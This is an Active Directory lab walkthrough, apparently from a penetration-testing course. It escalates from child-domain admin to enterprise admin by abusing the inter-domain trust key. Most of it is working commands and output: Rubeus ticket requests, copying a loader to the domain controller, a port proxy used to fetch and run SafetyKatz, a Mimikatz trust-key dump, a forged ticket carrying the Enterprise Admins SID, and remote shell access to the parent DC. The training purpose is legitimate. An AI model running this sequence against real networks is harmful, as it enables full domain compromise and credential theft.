


# Learning Objective 18 (Domain Privilege Escalation | Across Domain Trusts - Trust Key Abuse)

## Tasks

1. **Using DA access to `dollarcorp.moneycorp.local`, escalate to EA privileges by forging a silver ticket using the trust key for `moneycorp.local`**

---

## Attack Path Steps

- **Access to the Child DC with DA Privileges**
- **Extract from the Child DC the Trust Key for the Parent Domain**
- **Forge a Silver Ticket (with EA SID History) using the Trust Key from the Child DC for Privilege Escalation**
- **Leverage the Forged Ticket to Gain EA Access to the Parent DC**

---

## Solution

1. **Using DA access to `dollarcorp.moneycorp.local`, escalate to EA privileges by forging a silver ticket using the trust key for `moneycorp.local`**

- **Access to the Child DC with DA Privileges**

We need the trust key for the trust between `dollarcorp` (child domain) and `moneycorp` (parent domain), which can be retrieved using Mimikatz or SafetyKatz.


`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT📌

[*] Got domain: dollarcorp.moneycorp.local
[*] Showing process : True
[*] Username        : PJAOM31O
[*] Domain          : 3OD40M7W
[*] Password        : 70VJ6MS5
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 6548
[+] LUID            : 0x31e0d34

[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: DOLLARCORP.MONEYCORP.LOCALsvcadmin
[*] Using aes256_cts_hmac_sha1 hash: 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\svcadmin'
[*] Target LUID : 52301108
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x31e0d34
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL
  ServiceRealm             :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  UserName                 :  svcadmin🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL
  StartTime                :  2/17/2025 5:25:33 AM
  EndTime                  :  2/17/2025 3:25:33 PM
  RenewTill                :  2/24/2025 5:25:33 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  BPP0XjHF4o/PmK//hy//KPO6mXvMd2bERUxH5SORqSg=
  ASREP (key)              :  6366243A657A4EA04E406F1ABC27F1ADA358CCD0138EC5CA2835067719DC7011
```




`klist`:
```
Current LogonId is 0:0x31e0d34

Cached Tickets: (1)

#0>     Client: svcadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/17/2025 5:25:33 (local)
        End Time:   2/17/2025 15:25:33 (local)
        Renew Time: 2/24/2025 5:25:33 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Run the below commands from the process running as DA to copy `Loader.exe` on `dcorp-dc` and use it to extract credentials.

`echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y`:
```
Does \\dcorp-dc\C$\Users\Public\Loader.exe specify a file name
or directory name on the target
(F = file, D = directory)? F
C:\AD\Tools\Loader.exe
1 File(s) copied
```

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\svcadmin>
```
🚀


`netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.22`



- **Extract from the Child DC the Trust Key for the Parent Domain**

`C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-trust /patch

Current domain: DOLLARCORP.MONEYCORP.LOCAL (dcorp / S-1-5-21-719815819-3726368948-3917688648📌)

Domain: MONEYCORP.LOCAL (mcorp / S-1-5-21-335606122-960912869-3279953914)
 [  In ]📌 DOLLARCORP.MONEYCORP.LOCAL🏛️ -> MONEYCORP.LOCAL🏛️
    * 2/5/2025 9:09:45 PM - CLEAR   - a4 f5 58 eb 73 17 cd b9 f7 17 c5 f1 79 cd 72 b9 23 ff 84 dc 0c 60 a0 53 51 fd 5b 72 86 97 f6 3e d8 39 9a b4 4f 9c 95 e8 e3 98 54 f7 54 97 28 31 8d 41 0a da 77 d8 fd 46 9e c1 77 22 7c 1f 67 99 43 9c 68 a7 00 1c cd d5 cf 60 33 7b 6b e7 23 dd 1e 64 d3 7b 88 c8 cf ea 05 0b a3 08 1c cc 13 aa ea 78 75 33 c5 20 f0 24 8a de 61 2b a7 91 39 9b 66 8a cd 04 6e 23 92 39 c1 22 7b 62 65 24 48 16 2c f2 02 15 6e 76 cc 3c 81 1b 86 2e 02 f7 1d 65 68 bf bd 6b 8c c5 d8 77 1e e2 19 be f7 34 c3 99 27 b1 7c bc 56 a2 75 a7 a7 57 c4 be 27 4b c2 7c f9 49 28 42 99 85 8b 1a 56 5c 27 85 9a 0d 17 d6 ea d4 07 ee 06 59 eb 25 65 59 c7 12 e9 11 be a1 ce 8f 95 4c 03 74 10 0d 92 ab 68 63 dd 15 87 07 6b 8c 92 51 f4 d1 2f f7 d2 e3 20 aa bd 43 68 a0
        * aes256_hmac       66a7798a2a045f5e7d429fee84d129659c0fa52a21e2782b14b4bc30909f0181
        * aes128_hmac       4bf553169dd3941e4c1a6a4a93120569
        * rc4_hmac_nt       d7dddee831c334082de7489882681b9c🔑

[SNIP]
```

- **Forge a Silver Ticket (with EA SID History) using the Trust Key from the Child DC for Privilege Escalation**


`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:d7dddee831c334082de7489882681b9c /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap`:
```
[SNIP]

[*] Action: Build TGS📌

[*] Trying to query LDAP using LDAPS for user information on domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(samaccountname=Administrator)'
[*] Retrieving group and domain policy information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(|(distinguishedname=CN=Group Policy Creator Owners,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Administrators,CN=Builtin,DC=dollarcorp,DC=moneycorp,DC=local)(objectsid=S-1-5-21-719815819-3726368948-3917688648-513)(name={31B2F340-016D-11D2-945F-00C04FB984F9}))'
[*] Attempting to mount: \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL
[*] \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL successfully mounted
[*] Attempting to unmount: \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL
[*] \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL successfully unmounted
[*] Attempting to mount: \\us.dollarcorp.moneycorp.local\SYSVOL
[*] \\us.dollarcorp.moneycorp.local\SYSVOL successfully mounted
[*] Attempting to unmount: \\us.dollarcorp.moneycorp.local\SYSVOL
[*] \\us.dollarcorp.moneycorp.local\SYSVOL successfully unmounted
[*] Retrieving netbios name information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'CN=Configuration,DC=moneycorp,DC=local' for '(&(netbiosname=*)(dnsroot=dollarcorp.moneycorp.local))'
[*] Retrieving group information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(|(distinguishedname=CN=Group Policy Creator Owners,CN=Users,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Domain Admins,CN=Users,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Administrators,CN=Builtin,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(objectsid=S-1-5-21-1028785420-4100948154-1806204659-513))'
[*] Retrieving netbios name information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'CN=Configuration,DC=moneycorp,DC=local' for '(&(netbiosname=*)(dnsroot=dollarcorp.moneycorp.local))'
[*] Building PAC

[*] Domain         : DOLLARCORP.MONEYCORP.LOCAL🏛️ (dcorp)
[*] SID            : S-1-5-21-719815819-3726368948-3917688648📌
[*] UserId         : 500
[*] Groups         : 544,512,520,513
[*] ExtraSIDs      : S-1-5-21-335606122-960912869-3279953914-519📌
[*] ServiceKey     : D7DDDEE831C334082DE7489882681B9C
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : D7DDDEE831C334082DE7489882681B9C
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt📌
[*] Target         : DOLLARCORP.MONEYCORP.LOCAL

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator🎭@dollarcorp.moneycorp.local🏛️'

[*] AuthTime       : 2/17/2025 5:41:25 AM
[*] StartTime      : 2/17/2025 5:41:25 AM
[*] EndTime        : 2/17/2025 3:41:25 PM
[*] RenewTill      : 2/24/2025 5:41:25 AM

[*] base64(ticket.kirbi):

doIGPjCCBjqgAwIBBaEDAgEWooIFCjCCBQZhggUCMIIE/qADAgEFoRwbGkRPTExBUkNPUlAuTU9ORVlDT1JQLkxPQ0FMoi8wLaADAgECoSYwJBsGa3JidGd0GxpET0xMQVJDT1JQLk1PTkVZQ09SUC5MT0NBTKOCBKYwggSioAMCARehAwIBA6KCBJQEggSQF8F+37aU/wEWHfF5oIOvgKc5g8856XA6ZX0iSyUKFkhHnCARuI...

[SNIP]
```

- **Leverage the Forged Ticket to Gain EA Access to the Parent DC**

Copy the base64 encoded ticket from above and use it in the following command.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:doIGPjCCBjqgAwIBBaEDAgEWooIFCjCCBQZhggUCMIIE/qADAgEFoRwbGkRPTExBUkNPUlAuTU9ORVlDT1JQLkxPQ0FMoi8wLaADAgECoSYwJBsGa3JidGd0GxpET0xMQVJDT1JQLk1PTkVZQ09SUC5MT0NBTKOCBKYwggSioAMCARehAwIBA6KCBJQEggSQF8F+37aU/wEWHfF5oIOvgKc5g8856XA6ZX0iSyUKFkhHnCARuI...`:
```
[SNIP]

[*] Action: Ask TGS📌

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'http/mcorp-dc.MONEYCORP.LOCAL'
[*] Using domain controller: mcorp-dc.MONEYCORP.LOCAL (172.16.1.1)
[+] TGS request successful!
[+] Ticket successfully imported!🎟️
[*] base64(ticket.kirbi):

[SNIP]

  ServiceName              :  http📌/mcorp-dc.MONEYCORP.LOCAL
  ServiceRealm             :  MONEYCORP.LOCAL🏛️
  UserName                 :  Administrator🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  StartTime                :  2/17/2025 5:43:28 AM
  EndTime                  :  2/17/2025 3:41:25 PM
  RenewTill                :  2/24/2025 5:41:25 AM
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  y+QNZ+j2Fg4W/dU+AXPehDw/MCQxVifb0NeFF/pcTbM=
```

`klist`:
```
Current LogonId is 0:0x38c010

Cached Tickets: (1)

#0>     Client: Administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: http📌/mcorp-dc.MONEYCORP.LOCAL @ MONEYCORP.LOCAL🏛️
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 2/17/2025 5:43:28 (local)
        End Time:   2/17/2025 15:41:25 (local)
        Renew Time: 2/24/2025 5:41:25 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

Once the ticket is injected, we can access `mcorp-dc`!

`winrs -r:mcorp-dc.moneycorp.local cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator.dcorp>
```
🚀


`set username`:
```
USERNAME=Administrator👑
```

`set computername`:
```
COMPUTERNAME=MCORP-DC🖥️
```
🚩

---
---
